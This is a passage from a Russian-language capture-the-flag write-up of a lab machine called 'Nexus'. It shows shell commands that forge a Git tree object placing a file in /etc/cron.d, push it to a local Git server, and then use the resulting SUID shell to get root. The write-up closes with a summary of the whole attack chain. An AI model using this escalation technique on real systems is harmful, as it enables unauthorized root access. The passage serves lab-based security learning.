jones@nexus:/tmp/test$ echo -ne "100644 /etc/cron.d/123_shell\0${PAYLOAD_HASH}" | git hash-object -w -t tree --literally –stdin

c4c3dab4b30b4cfa783dbc2ff4d82997fae6e470

jones@nexus:/tmp/test$ git commit-tree c4c3dab4b30b4cfa783dbc2ff4d82997fae6e470 -m "test"

572a7c6555a733f4a4956a30ebcab4c12bb7a0b1

jones@nexus:/tmp/test$ git update-ref refs/heads/main 572a7c6555a733f4a4956a30ebcab4c12bb7a0b1

jones@nexus:/tmp/test$ git add .

jones@nexus:/tmp/test$ git push origin main

Username for 'http://localhost:3000': jones

Password for 'http://jones@localhost:3000':

jones@nexus:/tmp/test$ cd ..

jones@nexus:/tmp$ ls –la
```

Через некоторое время (~1-2 минуты) получаем файл с **SUID-битом** 



Запускаем `/tmp/shell -p` и получаем оболочку от имени root. 

Итог: получаем root-флаг!



## 🏁 Заключение

Машина **Nexus** оставила очень приятное впечатление благодаря своей логичности и реалистичности сценария. Путь от первоначальной разведки до получения первого доступа был выстроен грамотно: утечка данных в истории Git, поиск поддоменов и эксплуатация известной уязвимости в CRM создали целостную картину реального пентеста.

Особого внимания заслуживает этап повышения привилегий. Задумка с использованием **Git Internals** для обхода ограничений и выполнения кода от имени root через cron-задачу показалась мне одной из самых сложных и интересных задач, с которыми я сталкивался. Этот вектор атаки выходит за рамки стандартных техник и требует глубокого понимания того, как работают объекты Git (blobs, trees, commits) и как система обрабатывает изменения в репозиториях.

Несмотря на сложность реализации этого этапа, именно он сделал прохождение машины по-настоящему запоминающимся и дал ценный опыт работы с нетривиальными векторами эскалации прав.
### 📚 Ключевые навыки, полученные при прохождении:

1.  **OSINT и Reconnaissance:** Поиск скрытых поддоменов и анализ публичных репозиториев на наличие "секретов"

2.  **Web Exploitation:** Работа с современными CMS  и использование аутентифицированных эксплойтов

3.  **Advanced Privilege Escalation:** Глубокое погружение во внутреннее устройство Git и использование его объектов для создания вредоносных коммитов.

4.  **Post-Exploitation:** Анализ конфигурационных файлов (.env) для поиска учетных данных других пользователей.
  
